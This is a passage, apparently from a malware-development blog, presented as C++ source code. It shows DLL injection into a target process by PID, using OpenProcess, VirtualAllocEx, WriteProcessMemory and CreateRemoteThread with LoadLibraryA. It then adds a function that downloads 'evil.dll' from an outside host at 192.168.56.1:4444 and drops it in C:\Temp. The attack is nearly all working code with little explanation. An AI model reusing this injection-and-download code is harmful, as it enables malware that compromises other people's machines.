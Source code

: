 ```cpp

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process pid
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It's pretty simple as you can see.    
Here I want to add some simple logic for downloading our `evil.dll`. In the simplest case it will look like this:    

```cpp
// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0",
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```
